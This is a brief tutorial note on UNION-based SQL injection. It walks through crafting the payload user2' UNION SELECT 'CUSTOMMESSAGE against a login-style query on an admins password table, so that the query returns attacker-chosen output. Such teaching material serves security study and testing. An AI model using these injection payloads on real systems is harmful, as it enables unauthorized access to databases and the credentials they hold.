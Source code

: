 # SQL Exploitation

## Force SQL query to print user defined output

* There are many ways in which print user defined input. The below SQL query will print user defined string "CUSTOMMESSAGE"
  * `SELECT 'CUSTOMMESSAGE'`
  * `SELECT TOP 1  'CUSTOMMESSAGE' AS` _`column_name`_ `FROM` _`table_name`_ `WHERE '1' = '1'`

### Example

* Given SQL query : `SELECT password FROM admins WHERE username=\'%s\'`
  * Input `%s` is user defined input.
  * _Payload =_ **%s**
* Step 1 : Make the current SELECT query to print null output.
  * This could be done here by sending invalid username for input `%s` 
  * Here we do not need to close the quote. If we add ending quote we will get syntax error.
  * _Payload_  =  **user\_2**
  * _Final SQL query_  =  **`SELECT password FROM admins WHERE username='user_2'`**
* Step 2 : Now we need to add another SELECT query which will be executed after this select in the same inline.
  * This could be done using `UNION` keyword.
  * Here we need to handle quotes properly to make final SQL query syntax correct. See the final SQL query will already have a ending quote, so payload needs to have a missing ending quote.
  * _Payload =_ **user\_2' UNION SELECT \_\_\_\_\_\_**
  * _Final SQL query  =_  **`SELECT password FROM admins WHERE username='user2' UNION SELECT ______'`**
* Step 3 : Now The last part is to define the SELECT statement such that it will print user defined input.
  * _Payload =_ **user2' UNION SELECT 'CUSTOMMESSAGE**
  * _Final SQL Query =_ **`SELECT password FROM admins WHERE username='user2' UNION SELECT 'CUSTOMMESSAGE'`**



